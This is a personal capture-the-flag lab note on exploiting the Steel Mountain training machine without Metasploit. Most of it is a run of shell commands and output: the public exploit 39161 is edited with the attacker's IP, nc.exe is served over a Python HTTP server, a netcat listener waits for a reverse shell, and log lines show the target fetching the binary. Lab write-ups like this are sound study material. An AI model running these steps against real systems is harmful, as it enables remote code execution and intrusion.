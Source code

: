 ## this is the last part to the Steelmountain machine where the aim is to exploit the same vulnerability
        ## but with a diff method aka without metsploit

#powershell and WinPEAS will be used to enumerate what we can do with the system + how to exploit and access it
#exploit to use = the one found on the epxloit-db page: https://www.exploit-db.com/exploits/39161

#I downloaded the above file (39161.py and moved it to the same directory as this note)
#there was a note that both a web server and nc listener would have to be active simultaneously
        #from what I have learned bfore, a web server could be set up using:
        # python -m SimpleHTTPServer
#further, it said a netcat sttic binary is required on the system which I am quite sure I do not already have
#so I proceeded to install this from git
#finally, I had to run the exploit twice:
        #1 --> the netcat binary is pulled to the system
        #2 --> paylaod should be executed + callback should be 'gained'



#directory of my winPEAS = /home/kali/tools/PEASS-ng/winPEAS



### THE METHOD ###
#1 after downloading the exploit, I modified it so it had my IP addrees and port I wanted to listen to:
        #(10.11.59.68 + 4442)

(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ nano 39161.py

#2 apparently: "a full install of Kali provides the Netcat Windows binary in the /usr/share/windows-resources/binaries/nc.exe directory"
        #meaning I would not have to download this, merely set up a Python SimpleHTTPServer:
(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ python -m SimpleHTTPServer 80                                                                       1 ⨯
Serving HTTP on 0.0.0.0 port 80 ...

(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ nc -nlvp 4442
listening on [any] 4442 ...

(kali㉿kali)-[~/THM/practice/steelmountain]
└─$ python 39161.py 10.10.196.240 8080

#HOWEVER I kept getting these error messages:
10.10.196.240 - - [02/Feb/2022 12:35:07] code 404, message File not found
10.10.196.240 - - [02/Feb/2022 12:35:07] "GET /nc.exe HTTP/1.1" 404 -
10.10.196.240 - - [02/Feb/2022 12:35:07] code 404, message File not found
10.10.196.240 - - [02/Feb/2022 12:35:07] "GET /nc.exe HTTP/1.1" 404 -
